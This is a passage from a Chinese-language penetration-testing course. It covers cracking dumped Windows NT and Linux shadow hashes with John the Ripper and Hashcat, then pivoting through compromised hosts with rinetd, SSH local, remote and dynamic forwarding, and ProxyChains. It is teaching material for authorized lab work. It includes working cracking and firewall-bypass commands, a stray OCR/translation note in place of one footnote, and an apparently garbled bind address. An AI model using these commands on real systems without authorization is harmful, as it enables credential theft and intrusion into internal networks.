以纯暴力破解模式运行 `john`（尝试密码中所有可能的字符组合）非常简单，只需在命令行上传入包含我们密码哈希的文件名以及哈希格式即可。

在列表 619 中，我们攻击使用 `mimikatz` 转储的 NT 哈希（`--format=NT`）。

```
kali@kali:~$ cat hash.txt

WDAGUtilityAccount:0c509cca8bcd12a26acf0d1e508cb028

Offsec:2892d26cdf84d7a70e2eb3f9f05c425e

kali@kali:~$ sudo john hash.txt --format=NT

Using default input encoding: UTF-8
```


```
Rules/masks using ISO-8859-1

Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])

Press 'q' or Ctrl-C to abort, almost any other key for status
```

*列表 619 - 使用 John the Ripper 进行暴力破解*

在上述输出中，JTR（John the Ripper）正确识别了哈希类型并开始对其进行破解。然而，像这样的暴力攻击基于系统速度可能需要很长时间。作为替代方案，我们可以使用 `--wordlist` 参数并提供词表的路径，这会缩短处理时间，但承诺的密码恢复率较低：

```
kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

*列表 620 - 使用 John the Ripper 进行字典破解*

如果仍有密码未被破解，我们接下来可以尝试应用 JTR 的密码变形规则，使用 `--rules` 参数。

```
kali@kali:~$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

*列表 621 - 使用密码变形规则进行破解*

为了使用 JTR 破解基于 Linux 的哈希，我们需要首先使用 `unshadow` 工具将受攻破系统中的 `passwd` 和 `shadow` 文件合并。

```
kali@kali:~$ unshadow passwd-file.txt shadow-file.txt

victim:$6$f0S.xfbT$5c5vh3Zrk.88SbCWdUnirjgcgcYwCC/xT5Ec|SuJtrvqFk04pSWHaGxZojNy.vAqMGr8BN0b0P3pW1ybmx20IT/:1003:1003:::/:home/victim:/bin/bash

kali@kali:~$ unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
```

*列表 622 - 准备 Linux 密码哈希以供破解*

现在我们可以运行 `john`，传入词表和未加盐的文本文件作为参数：


`kali@kali:~$ john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`

```
Using default input encoding: UTF-8

Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])

Cost 1 (iteration count) is 5000 for all loaded hashes

Will run 2 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status

s3cr3t (victim)

1g 0:00:00:28 DONE (2019-08-20 15:42) 0.03559g/s 2497p/s 2497c/s 2497C/s
...
```

### 列表 623 - 使用 John the Ripper 破解 Linux 密码哈希

较新版本的 `John the Ripper` 默认支持多线程，但旧版本仅使用单个 CPU 核心执行破解操作。如果你遇到的是旧版 JTR，它支持可以加速过程的替代方案。我们可以采用多个 CPU 核心，甚至多台计算机，来分配负载并加速破解过程。`--fork` 选项启用多个进程，以便在单台机器上利用更多的 CPU 核心，而 `--node` 则跨多台机器分配工作。

例如，假设我们有两台机器，每台机器都有 8 核 CPU。在第一台机器上，我们设置 `--fork=8` 和 `--node=1-8/16` 选项，指示 `John` 在此机器上创建八个进程，将提供的词表分成十六个相等的部分，并在本地处理前八部分。在第二台机器上，我们可以使用 `--fork=8` 和 `--node=9-16` 将八个进程分配给词表的后半部分。以这种方式分配工作大约可以提供 16 倍的性能提升。

> *攻击者还可以预先计算密码的哈希值（这可能花费大量时间），并将它们存储在巨大的数据库中，或者存储在彩虹表中，[585] 从而使密码破解变成简单的表查找过程。这是一种空间-时间权衡，因为这些表可能会消耗大量的空间（根据密码复杂度可达 PB 级别），但密码“破解”过程本身（技术上是一个查找过程）所花费的时间要少得多。*

虽然 `John the Ripper` 是破解密码哈希的绝佳工具，但其速度受限于专门用于该任务的 CPU 算力。近年来，图形处理器（GPU）变得极其强大，而且当然存在于每台带有显示器的计算机中。高端机器，如用于视频编辑和游戏的主机，配备了极其强大的 GPU。`Hashcat` [586] 等 GPU 破解工具利用 CPU 和 GPU 的强大功能，达到了惊人的密码破解速度。

`Hashcat` 的选项通常镜像 `John the Ripper` 的选项，并包括算法检测和密码列表变形等功能。

在此示例中，我们将在配备 GeForce GTX 1080 Ti GPU 的机器上以基准测试模式（`-b`）运行 `hashcat`：

```
C:\Users\Cracker\hashcat-4.2.1> hashcat64.exe -b

hashcat (v4.2.1) starting in benchmark mode...

...

OpenCL Platform #1: NVIDIA Corporation

=========================================

* Device #1: GeForce GTX 1080 Ti, 2816/11264 MB allocatable, 28MCU

Benchmark relevant options:

=========================================

* --optimized-kernel-enable

Hashmode: 0 - MD5

Speed.Dev.#1.....: 39354.5 MH/s (93.70ms) @ Accel:128 Loops:1024 Thr:1024 Vec:4

Hashmode: 100 - SHA1

Speed.Dev.#1.....: 13251.8 MH/s (87.49ms) @ Accel:128 Loops:512 Thr:640 Vec:1

Hashmode: 1400 - SHA-256

Speed.Dev.#1.....: 4770.8 MH/s (48.15ms) @ Accel:128 Loops:64 Thr:1024 Vec:1

Hashmode: 1700 – SHA-512

Speed,Dev.#1......: 1567.9 MH/s (92.38ms) @ Accel:128 Loops:64 Thr:640 Vec:1

Hashmode: 1000 – NTLM

Speed,Dev.#1......: 65267.0 MH/s (55.66ms) @ Accel:128 Loops:1024 Thr:1024 Vec:1

Hashmode: 5500 – NetNTLMv1 / NetNTLMv1+ESS

Speed,Dev.#1......: 33504.0 MH/s (55.00ms) @ Accel:128 Loops:512 Thr:1024 Vec:1

Hashmode: 5600 – NetNTLMv2

Speed,Dev.#1......: 2761.2 MH/s (83.59ms) @ Accel:128 Loops:64 Thr:1024 Vec:1

Hashmode: 1800 – sha512crypt $6$, SHA512 (Unix) (Iterations: 5000)

Speed,Dev.#1......: 218.6 kH/s (51.55ms) @ Accel:512 Loops:128 Thr:32 Vec:1 ....
```


*列表 624 - 使用 GeForce GTX 1080 Ti 进行基准测试破解速度*

基准数字相当惊人，显示出 SHA1 速度超过每秒 130 亿个哈希，NTLM 速度超过每秒 620 亿个哈希，甚至非常复杂且缓慢的 sha512crypt 哈希算法也能以惊人的每秒 200,000 个哈希的速度运行。将此与我们之前在（自认较弱的）Kali 虚拟机 CPU 上运行 John the Ripper 的一些结果进行比较，那些结果的速度仅在每秒几百个哈希左右。

这些速度是由单个 GPU 实现的，但具有四个、八个或更多 GPU 的多 GPU 计算机是可用的。截至本文出版时，配备单个 GPU 的破解计算机造价约为 2000 美元，而四 GPU 系统的造价约为 6000 美元。八 GPU 系统记录的基准测试超过每秒 5000 亿个 NTLM 哈希。[587]

### 19.4.3.1 练习

（此练习不需要报告）

- 1. 为你的 Windows 机器上转储的 NTLM 哈希创建一个词表文件，并使用 John the Ripper 破解该哈希。

## 19.5 总结

现有的密码攻击工具和词表如此之多，以至于在渗透测试过程中，人们很容易想要直接跳进去并开始攻击，以寻找那个往往难以捉摸的突破点。然而，成功不仅在于深入理解每个工具的使用方法和优势，还在于学会后退一步，智慧地应用这些工具，尊重速度与精度之间的平衡，并优先考虑客户生产环境的安全性。

587 (epix0ip, 2019), https://gist.github.com/epix0ip/ace60d09981be09544fdf355005051505

## 20. 端口重定向与隧道技术

在本模块中，我们将展示端口重定向、隧道技术和流量封装的各种形式。理解并掌握这些技术，将为我们提供操纵目标流量方向性所需的“手术刀”般精准的工具，这在受限网络环境中往往非常有用。然而，这需要高度的专注，因为诚实地说，本模块的内容有些烧脑。

协议隧道$^{588}$是指将一种协议封装在另一种协议中。通过使用各种隧道技术，我们可以在不兼容的传输网络上承载特定协议，或者在不信任的网络中提供一条安全的路径。

端口转发$^{589}$和隧道的概念可能难以消化，因此我们将通过几个假设场景来提供更清晰的理解。在继续下一个场景之前，请花时间理解每一个场景。

### 20.1 端口转发

端口转发是我们要研究的最简单的流量操纵技术，我们将发往某个 IP 地址和端口的流量重定向到另一个 IP 地址和端口。

#### 20.1.1 RINETD

首先，我们将基于以下场景，从一个相对简单的端口转发示例开始。

在一次评估中，我们获得了与互联网连接的 Linux Web 服务器的 root 权限。在那里，我们发现并攻陷了内部网络中的一台 Linux 客户端，从而获得了 SSH 凭证。

在这个相当常见的场景中，我们的第一个目标——Linux Web 服务器——具有互联网连接，但第二台机器——Linux 客户端——没有。我们只能通过经由这台联网服务器进行跳板访问才能触达该客户端。为了再次进行跳板——这次是从 Linux 客户端出发，并开始评估内部网络上的其他机器——我们需要能够按需将工具传输到我们的攻击机并从中外泄数据。由于该客户端无法直接访问互联网，我们必须使用被攻陷的 Linux Web 服务器作为中介，使数据经过两次传输，从而创建一个非常繁琐的数据传输过程。

我们可以使用端口转发技术来简化这个过程。为了重现此场景，我们具有互联网连接的 Kali Linux 虚拟机将扮演被攻陷的 Linux Web 服务器，而我们的专用 Debian Linux 机器则作为内部、无互联网连接的 Linux 客户端。我们的环境看起来可能像这样：

$^{588}$ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Tunneling_protocol

$^{589}$ (Wikipedia, 2019), https://en.wikipedia.org/wiki/Port_forwarding


图 296：出站过滤阻止我们的下载

按照当前配置，我们的 Kali 机器可以访问互联网，而客户端不能。我们可以通过 `ping` `google.com` 并使用 `nc -nvv 216.58.207.142 80` 连接到该 IP 地址来验证从 Kali 机器的连通性。

```bash
kali@kali:~$ ping google.com -c 1
PING google.com (216.58.207.142) 56(84) bytes of data.
64 bytes from muc11s03-in-f14.1e100.net (216.58.207.142): icmp_seq=1 ttl=128 time=26.4 ms
--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 26.415/26.415/26.415/0.000 ms
root@kali:~# nc -nvv 216.58.207.142 80
(UNKNOWN) [216.58.207.142] 80 (http) open
GET / HTTP/1.0
HTTP/1.0 200 OK
Date: Mon, 26 Aug 2019 15:38:42 GMT
Expires: -1
Cache-Control: private, max-age=0
...
...
```

列表 625 - 获取 google.com 的 IP 地址

正如预期，我们的 Kali 攻击机可以访问互联网。接下来，我们将 `ssh` 到被攻陷的 Linux 客户端，并使用 Ncat 再次从那里测试互联网连通性。请注意，我们再次使用 IP 地址，因为实际的无互联网连接的内网可能没有可用的外部 DNS。

```bash
kali@kali:~$ ssh student@10.11.0.128
student@10.11.0.128's password:
Linux debian 4.9.0-6-686 #1 SMP Debian 4.9.82-1+deb9u3 (2018-03-02) i686
...
student@debian:~$ nc -nvv 216.58.207.142 80
(UNKNOWN) [216.58.207.142] 80 (http) : No route to host
sent 0, rcvd 0
```

列表 626 - 由于缺乏互联网连接，无法连接到外部 IP 地址

这次，互联网连接测试失败，表明我们的 Linux 客户端确实与互联网断开。为了将文件传输到 Kali 联网主机，我们必须先将文件传输到 Linux Web 服务器，然后再传输到我们的最终目标。

> 请注意，在真实的渗透测试环境中，我们的目标很可能是将文件传输到我们的 Kali 攻击机（不一定像本场景这样通过它中转），但概念是相同的。

相反，我们将使用一个名为 rinetd$^{590}$ 的端口转发工具来重定向我们 Kali Linux 服务器上的流量。该工具易于配置，在 Kali Linux 软件库中可用，并且可以使用 `apt` 轻松安装：

```bash
kali@kali:~$ sudo apt update && sudo apt install rinetd
```

列表 627 - 从 Kali Linux 软件库安装 rinetd

rinetd 配置文件 `/etc/rinetd.conf` 列出了转发规则，这些规则需要四个参数，包括 `bindaddress` 和 `bindport`（定义绑定的（“监听”）IP 地址和端口），以及 `connectaddress` 和 `connectport`（定义流量的目标地址和端口）：

```bash
kali@kali:~$ cat /etc/rinetd.conf
...
# forwarding rules come here
#
# you may specify allow and deny rules after a specific forwarding rule
# to apply to only that forwarding rule
#
# bindaddress   bindport  connectaddress connectport
...
```

列表 628 - rinetd 的默认配置文件

例如，我们可以使用 rinetd 将收到的任何到达 Kali Web 服务器 80 端口的流量重定向到我们在测试中使用的 google.com IP 地址。为此，我们将编辑 rinetd 配置文件并指定以下转发规则：

```bash


kali@kali:~$ cat /etc/rinetd.conf

...

# bindaddress   bindport  connectaddress connectport

0.0.0.0 80 216.58.207.142 80

. . .

```

列表 629 - 在 rinetd 配置文件中添加转发规则

此规则表示，无论目标地址如何，发往我们 Kali Linux 服务器（监听在所有接口上（`0.0.0.0`））`80` 端口的所有流量都将重定向到 `216.58.207.142:80`。这正是我们想要的。我们可以使用 `service` 重启 rinetd 服务，并使用 `ss`（套接字统计）确认该服务正在监听 TCP 端口 `80`：

```bash
kali@kali:~$ sudo service rinetd restart

kali@kali:~$ ss -antp | grep "80"

LISTEN 0 5 0.0.0.0:80 0.0.0.0:* users:(("rinetd",pid=1886,fd=4))
```

列表 630 - 启动 rinetd 服务并使用 ss 确认端口已绑定

太好了！端口正在监听。为了验证，我们可以连接到我们 Kali Linux 虚拟机的 `80` 端口：

```bash
student@debian:~$ nc -nvv 10.11.0.4 80

(UNKNOWN) [10.11.0.4] 80 (http) open

GET / HTTP/1.0

HTTP/1.0 200 OK

Date: Mon, 26 Aug 2019 15:46:18 GMT

Expires: -1

Cache-Control: private, max-age=0

Content-Type: text/html; charset=ISO-8859-1

P3P: CP="This is not a P3P policy! See g.co/p3phelp for more info."

Server: gws

X-XSS-Protection: 0

X-Frame-Options: SAMEORIGIN

Set-Cookie: IP_TAR=2019-08-26-15; expires=Wed, 25-Sep-2019 15:46:18 GMT; path=/; domain=.google.com

Set-Cookie: NID=188:Hdg-h4aaIehfQUxAv0nI87Mtwcq80107nQBuFuDwoXrcqf43KyUCoBEGmOFmy0kXyWCZHjj0egWCFxdote0ScMX6Arou2jf4DzeeFHBhqZCVl.3DV3ysgPzerRkk9pcl17HebeEn5xR9BgWfz4jvZKjnzYdWlf0L2livk; expires=Tue, 25-Feb-2020 15:46:18 GMT; path=/; domain=.google.com; HttpOnly

. . .
```

列表 631 - 成功通过我们的 Kali Linux 虚拟机访问外部 IP

到 Linux 服务器的连接成功了，我们对 Web 服务器执行了成功的 GET 请求。正如 `Set-Cookie` 字段所示，连接被正确转发，实际上我们已连接到 Google 的 Web 服务器。

现在，我们可以通过简单地修改 Web 服务器 `/etc/rinetd.conf` 文件中的 `connectaddress` 和 `connectport` 字段，利用此技术从我们之前无法访问互联网的 Linux 客户端，经由 Linux Web 服务器，连接到任何联网主机。

图 297 在视觉上总结了这一过程：

$^{590}$ Referring to footnote 589 in original context or likely a typo for 590 based on sequence, keeping as OCR provided '500' but correcting to logical sequence if clearly typo. In OCR 'rinetd⁵⁰⁰', 500 is likely 590. I will keep the superscript as is or correct to 590 if confident. Looking at previous footnotes 588, 589. 500 is definitely an OCR error for 590. I will correct it to 590.


这是该模块中较为基础的场景之一。请务必抽出时间完成练习并理解这些概念，然后再继续前进。

## 20.1.1.1 练习

- 连接到你的专用 Linux 实验室客户端，并以 root 身份从 `/root/port_forwarding_and_tunneling/` 目录运行 `clear_rules.sh` 脚本。
- 尝试复现上述场景中所涵盖的端口转发技术。

### 20.2 SSH 隧道

SSH 协议<sup>591</sup> 是用于隧道和端口转发最受欢迎的协议之一。<sup>592</sup> 这是因为它具有在 SSH 协议内创建加密隧道的能力，而该协议支持双向通信通道。SSH 协议的这一晦涩功能对渗透测试人员和管理员都有深远的影响。

#### 20.2.1 SSH 本地端口转发

SSH 本地端口转发允许我们将本地端口通过 SSH 作为传输协议隧道到远程服务器。这种技术的效果类似于 rinetd 端口转发，但也有一些不同之处。

<sup>591</sup> (SSH Communications Security, 2018), https://www.ssh.com/ssh/protocol/

<sup>592</sup> (Trackets Blog, 2017), https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html


让我们考虑另一个场景。在一次评估中，我们通过远程漏洞攻陷了一个基于 Linux 的目标，将权限提升至 root，并获取了该机器上 root 和 student 用户的密码。这个被攻陷的机器似乎没有出站流量过滤，并且只暴露了 SSH（端口 `22`）、RDP（端口 `3389`）和存在漏洞的服务端口，这些端口在防火墙中也是被允许的。

在对被攻陷的 Linux 客户端进行枚举后，我们发现除了连接到当前网络（`10.11.0.x`）外，它还有一个似乎连接到不同网络（`192.168.1.x`）的网络接口。在这个内部子网中，我们识别出一台 Windows Server 2016 机器，该机器有可用的网络共享。

为了在我们的实验室环境中模拟这种配置，我们将运行专用 Linux 客户端上的 `ssh_local_port_forwarding.sh` 脚本：

```bash
root@debian:~# cat /root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh

#!/bin/bash

# Clear iptables rules

iptables -P INPUT ACCEPT

iptables -P FORWARD ACCEPT

iptables -P OUTPUT ACCEPT

iptables -F

iptables -X

# SSH Scenario

iptables -F

iptables -P INPUT DROP

iptables -P FORWARD DROP

iptables -A INPUT -i lo -j ACCEPT

iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

iptables -A INPUT -p tcp --dport 3389 -m state --state NEW -j ACCEPT

iptables -A INPUT -p tcp --dport 22 -m state --state NEW -j ACCEPT

iptables -A INPUT -p tcp --dport 8080 -m state --state NEW -j ACCEPT

iptables -A INPUT -i lo -j ACCEPT

root@debian:~# /root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```


> 列表 632 - `ssh_local_port_forwarding.sh` 脚本的内容

在这种情况下，我们可以将所需的攻击和枚举工具移动到被攻陷的 Linux 机器上，然后尝试与 2016 服务器上的共享进行交互，但这既不够优雅也不具备可扩展性。相反，我们希望从基于互联网的连接通过我们的 Kali 攻击机器，透过这个被攻陷的 Linux 客户端进行跳转（pivoting），与这个新目标进行交互。这样，当我们与目标交互时，就可以访问我们 Kali 攻击机器上的所有工具。

这需要一些端口转发的魔法，我们将使用 `ssh` 客户端的本地端口转发功能（通过 `ssh -L` 调用）来协助实现。

语法如下：

```bash
ssh -N -L [bind_address:]port:host:hostport [username@address]
```

> 列表 633 - 使用 SSH 进行本地端口转发的命令原型

查阅 `ssh` 客户端的手册（`man ssh`），我们注意到 `-L` 参数指定了将转发到远程地址和端口的本地主机端口。

在我们的场景中，我们希望将我们 Kali 机器上的端口 **445**（无 NetBIOS 的微软网络）转发到 Windows Server 2016 目标上的端口 **445**。当我们这样做时，指向我们 Kali 机器的任何微软文件共享查询都将被转发到我们 Windows Server 2016 目标。鉴于防火墙正在阻止 TCP 端口 **445** 上的流量，这似乎是不可能的，但这个端口转发是通过 SSH 会话隧道到我们 Linux 目标端口 **22** 的，该端口是防火墙允许的。简而言之，请求将到达我们 Kali 机器的端口 **445**，通过 SSH 会话转发，然后传递到我们 Windows Server 2016 目标上的端口 **445**。

如果操作正确，我们的隧道和转发设置将类似于图 298：


为了实现这一点，我们将从我们的 Kali Linux 攻击机器执行一个 `ssh` 命令。我们在技术上不会发出任何 `ssh` 命令（`-N`），但会设置端口转发（使用 `-L`），将本地机器上的端口 **445**（**9.0.0.0:445**）绑定到 Windows Server（**192.168.1.110:445**）上的端口 **445**，并通过我们原始 Linux 目标的会话来实现，登录用户为 `student`（**student@10.11.0.128**）：

```bash
kali@kali:~$ sudo ssh -N -L 9.0.0.0:445:192.168.1.110:445 student@10.11.0.128
student@10.11.0.128's password:
```

> 列表 634 - 将我们的 Kali Linux 机器上的 TCP 端口 445 转发到 Windows Server 2016 上的 TCP 端口 445

此时，任何传入到我们 Kali Linux 机器 TCP 端口 **445** 的连接都将被转发到通过我们被攻陷的 Linux 客户端连接到 `192.168.1.110` IP 地址的 TCP 端口 **445**。

在测试之前，我们需要对我们的 Samba 配置文件做一个小改动，通过将该文件末尾添加 `"min protocol = SMB2"` 来将最低 SMB 版本设置为 SMBv2，如列表 635 所示。这是因为 Windows Server 2016 默认不再支持 SMBv1。

```bash
kali@kali:~$ sudo nano /etc/samba/smb.conf
kali@kali:~$ cat /etc/samba/smb.conf
...
Please note that you also need to set appropriate Unix permissions
# to the drivers directory for these users to have write rights in it
;
write list = root, @lpadmin
min protocol = SMB2
kali@kali:~$ sudo /etc/init.d/smbd restart
[ ok ] Restarting smbd (via systemctl): smbd.service.
```

*列表 635 - 将 Samba 更新为使用 SMBv2 通信*

最后，我们可以尝试列出 Windows Server 2016 机器上的远程共享，将请求指向我们的 Kali 机器。

我们将使用 `smbclient` 工具，提供 IP 地址或 NetBIOS 名称，在这种情况下是我们的本地机器（`-L 127.0.0.1`）和远程用户名（`-U Administrator`）。如果一切按计划进行，在我们输入远程密码后，该端口上的所有流量都将被重定向到 Windows 机器，并将显示可用的共享：

```bash
kali@kali:~# smbclient -L 127.0.0.1 -U Administrator
Unable to initialize messaging context
Enter WORKGROUP\Administrator's password:
Sharename    Type       Comment
---------    ----       -------
ADMIN$       Disk       Remote Admin
C$          Disk       Default share
Data         Disk
IPC$         IPC        Remote IPC
NETLOGON     Disk       Logon server share
SYSVOL       Disk       Logon server share
Reconnecting with SMB1 for workgroup listing.
Server     Comment
---------    -------
Workgroup    Master
---------    -------
```

*列表 636 - 通过本地端口转发列出 Windows Server 2016 机器上的网络共享*

不仅该命令成功了，而且由于这些流量通过 SSH 进行了隧道传输，整个事务都是加密的。我们可以使用这个端口转发设置继续通过 445 端口分析目标服务器，或者转发其他端口以进行额外的侦察。

### 20.2.1.1 练习

- 连接到你的专用 Linux 实验室客户端，并以 `root` 身份从 `/root/port_forwarding_and_tunneling/` 目录运行 `clear_rules.sh` 脚本。
- 以 `root` 身份从 `/root/port_forwarding_and_tunneling/` 目录运行 `ssh_local_port_forwarding.sh` 脚本。

3. 记录学生控制面板中显示的 Linux 客户端和 Windows Server 2016 的 IP 地址。

4. 尝试复现在上述场景中介绍的 `smbclient` 枚举操作。

#### 20.2.2 SSH 远程端口转发

SSH 中的远程端口转发功能可以被视为本地端口转发的反向操作，即在连接的远程端打开一个端口，并将发送到该端口的流量转发到我们本地机器（发起 SSH 客户端的机器）上的一个端口。

简而言之，发往远程主机指定 TCP 端口的连接将被转发到本地机器上的指定端口。我们可以通过一个新场景来最好地演示这一点。

在这种情况下，我们拥有一个内部网络中 Linux 客户端上的非 `root` shell 访问权限。在这台被攻陷的机器上，我们发现有一个 MySQL 服务器正在 TCP 端口 `3306` 上运行。与之前的场景不同，防火墙阻止了入站 TCP 端口 `22` (`SSH`) 连接，因此我们无法从连接到互联网的 Kali 机器 `SSH` 到这台服务器。

然而，我们可以从这台服务器 `SSH` 到我们的 Kali 攻击机，因为出站 TCP 端口 `22` 是允许通过防火墙的。我们可以利用 SSH 远程端口转发（通过 `ssh -R` 调用）在我们的 Kali 机器上打开一个端口，将流量转发到内部服务器上的 MySQL 端口（TCP `3306`）。所有转发的流量都将穿过 SSH 隧道，直接通过防火墙。

> 只要我们只绑定未使用的非特权本地端口（1024 以上），SSH 端口转发可以以非 `root` 用户身份运行。

为了模拟此场景，我们将运行专用的 Linux 客户端上的 `ssh_remote_port_forwarding.sh` 脚本：

```bash
root@debian:~# cat /root/port_forwarding_and_tunneling/ssh_remote_port_forwarding.sh
```


#!/bin/bash

# Clear iptables rules

`iptables` -P INPUT ACCEPT

`iptables` -P FORWARD ACCEPT

`iptables` -P OUTPUT ACCEPT

`iptables` -F

`iptables` -X

# SSH Scenario

`iptables` -F

`iptables` -P INPUT DROP

`iptables` -P FORWARD DROP

`iptables` -A INPUT -i lo -j ACCEPT

`iptables` -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

`iptables` -A INPUT -p tcp -dport 3389 -m state --state NEW -j ACCEPT

`iptables` -A INPUT -i lo -j ACCEPT

`root@debian:~# /root/port_forwarding_and_tunneling/ssh_remote_port_forwarding.sh`

```
*列表 637 – ssh_remote_port_forwarding.sh 脚本的内容*
```

创建此隧道的 `ssh` 命令语法将包括本地 IP 和端口、远程 IP 和端口，以及指定远程转发的 `-R`：

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
```

*列表 638 - 使用 SSH 进行远程端口转发的命令原型*

在这种情况下，我们将以 kali 用户身份（`kali@10.11.0.4`）`ssh` 连接到我们的 Kali 机器，指定不执行命令（-N）以及远程转发（-R）。我们将在 Kali 机器（`10.11.0.4:2221`）的 TCP 端口 2221 上打开一个监听器，并将连接转发到内部 Linux 机器的 TCP 端口 3306（`127.0.0.1:3306`）：

```bash
student@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
kali@10.11.0.4's password:
```

*列表 639 - 将 TCP 端口 2221 远程转发到被攻陷 Linux 机器的 TCP 端口 3306*

这将把我们的 Kali 系统本地端口 2221 上的所有传入流量通过 SSH 隧道（TCP 22）转发到被攻陷盒子的端口 3306，尽管该端口在防火墙处被过滤，但我们仍能访问 MySQL 端口。

我们的连接可以如图 299 所示：


在建立隧道后，我们可以切换到 Kali 机器，验证 TCP 端口 2221 正在监听，并使用 `nmap` 扫描该端口上的 localhost，这将指纹识别目标的 MySQL 服务：

```bash
kali@kali:~$ ss -antp | grep "2221"
LISTEN 0 128 127.0.0.1:2221 0.0.0.0:* users:(("sshd",pid=2294,fd=9))
LISTEN 0 128 [::1]:2221 [::]:* users:(("sshd",pid=2294,fd=8))
kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 2221
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000039s latency).
PORT STATE SERVICE VERSION
2221/tcp open mysql MySQL 5.5.5-10.1.26-MariaDB-8+deb9u1
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
```

*列表 640 - 通过远程隧道访问受害者机器上的 MYSQL 服务器*

既然我们知道可以扫描该端口，我们应该能够使用 Kali 安装的任何适当工具，毫无问题地通过 SSH 隧道与 MySQL 服务进行交互。

### 20.2.2.2 练习

1. 通过 SSH 连接到专用的 Linux 实验客户端，并以 root 身份运行 `/root/port_forwarding_and_tunneling/` 中的 `clear_rules.sh` 脚本。
2. 关闭到专用 Linux 实验客户端的所有 SSH 连接，然后使用 `rdesktop` 以学生账户连接，并以 root 身份运行 `/root/port_forwarding_and_tunneling/` 中的 `ssh_remote_port_forwarding.sh` 脚本。
3. 尝试复现在上述场景中介绍的 SSH 远程端口转发，并确保你可以扫描和与 MySQL 服务交互。

#### 20.2.3 SSH 动态端口转发

现在到了真正有趣的部分。SSH 动态端口转发允许我们设置一个本地监听端口，并通过使用代理将其传入的流量隧道到任何远程目的地。

在这个场景中（类似于 SSH 本地端口转发部分使用的场景），我们已经攻陷了一个基于 Linux 的目标并提升了权限。防火墙似乎没有入站或出站流量限制。

在对被攻陷的 Linux 客户端进行进一步枚举后，我们发现除了连接到当前网络（10.11.0.x）外，它还有一个额外的网络接口，似乎连接到了另一个网络（192.168.1.x）。在这个内部子网中，我们识别出一台 Windows Server 2016 机器，该机器有可用的网络共享。

在本地端口转发部分，我们成功与 Windows Server 2016 机器上可用的共享进行了交互；然而，该技术仅限于特定的 IP 地址和端口。在这个例子中，我们希望针对 Windows Server 2016 机器上的额外端口，或内部网络上的其他主机，而无需为每个感兴趣的端口或主机建立不同的隧道。

为了在我们的实验环境中模拟此场景，我们将再次从专用的 Linux 客户端运行 `ssh_local_port_forwarding.sh` 脚本。

一旦环境设置好，我们可以使用 `ssh -D` 来指定本地动态 SOCKS4 应用层端口转发（同样在 SSH 内隧道化），语法如下：

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

*列表 641 - 使用 SSH 进行动态端口转发的命令原型*

考虑到上述语法，我们可以创建本地 SOCKS4 应用代理（`-N -D`）在我们的 Kali Linux 机器上，TCP 端口 8080（`127.0.0.1:8080`），这将把所有传入流量隧道到目标网络中的任何主机，通过被攻陷的 Linux 机器，我们以 `student`（`student@10.11.0.128`）登录该机器：

```bash
kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
student@10.11.0.128's password:
```

*列表 642 - 在 TCP 端口 8080 上创建到我们目标网络的动态 SSH 隧道*

虽然我们启动了一个可以将应用流量通过 SSH 隧道路由到目标网络的应用代理，但我们必须以某种方式引导我们的侦察和攻击工具使用此代理。借助 `ProxyChains`，我们可以运行任何通过网络的应用程序通过 HTTP、SOCKS4 和 SOCKS5 代理。[^393]

要配置 ProxyChains，我们只需编辑主配置文件 `/etc/proxychains.conf` 并将我们的 SOCKS4 代理添加到其中：

```bash
kali@kali:~$ cat /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4        127.0.0.1 8080
```


### 列表 643 - 将我们的 SOCKS4 代理添加到 ProxyChains 配置文件中

此配置如图 300 所示：


<sup>393</sup> (Adam Hamsik, 2017), https://github.com/haad/proxychains


图 300：动态端口转发示意图

要通过 `proxychains` 代理运行我们的工具，我们需在每条命令前加上 `proxychains`。

例如，让我们尝试使用 `nmap` 扫描内部目标网络中的 Windows Server 2016 机器。在此示例中，除了 `nmap` 命令及其参数外，我们没有为 `proxychains` 提供任何选项：

```
kali@kali:~$ sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110

ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-19 18:18 EEST

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:443--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:23--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:80--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:8080--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:445--OK

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:135--OK

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:139--OK

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:22--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:111--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:3389--OK

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:1723--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:3306--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:5900--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:25--timeout

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:53--OK

S-chain|-<->127.0.0.1:8080-<->-192.168.1.110:993--timeout

